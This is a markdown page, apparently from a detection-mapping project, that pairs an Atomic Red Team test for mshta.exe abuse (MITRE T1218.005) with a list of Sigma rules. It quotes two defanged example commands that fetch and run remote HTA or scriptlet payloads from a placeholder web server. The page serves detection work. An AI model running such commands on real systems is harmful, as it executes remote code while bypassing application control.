 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Invoke HTML Application - JScript Engine with Rundll32 and Inline Protocol Handler
## OS
  - windows


## Description:
Executes an HTA Application with JScript Engine, Rundll32 and Inline Protocol Handler.

## Executor
powershell

# Sigma Rule
 - proc_creation_win_susp_powershell_parent_process.yml (id: 754ed792-634f-40ae-b3bc-e0448d33f695)

 - posh_ps_suspicious_keywords.yml (id: 1f49f2ab-26bc-48b3-96cc-dcffbc93eadf)

 - posh_ps_accessing_win_api.yml (id: 03d83090-8cba-44a0-b02f-0b756a050306)

 - posh_ps_malicious_keywords.yml (id: f62176f3-8128-4faa-bf6c-83261322e5eb)

 - file_event_win_csharp_compile_artefact.yml (id: e4a74e34-ecde-4aab-b2fb-9112dd01aed0)

 - proc_creation_win_susp_csc_folder.yml (id: dcaa3f04-70c3-427a-80b4-b870d73c94c4)

 - posh_ps_suspicious_windowstyle.yml (id: 313fbb0a-a341-4682-848d-6d6f8c4fab7c)

 - posh_ps_suspicious_networkcredential.yml (id: 1883444f-084b-419b-ac62-e0d0c5b3693f)

 - posh_ps_suspicious_gwmi.yml (id: 0332a266-b584-47b4-933d-a00b103e1b37)

 - posh_ps_copy_item_system32.yml (id: 63bf8794-9917-45bc-88dd-e1b5abc0ecfd)

 - posh_ps_file_and_directory_discovery.yml (id: d23f2ba5-9da0-4463-8908-8ee47f614bb9)

 - proc_creation_win_wmiprvse_spawning_process.yml (id: d21374ff-f574-44a7-9998-4a8c8bf33d7d)



[back](../index.md)
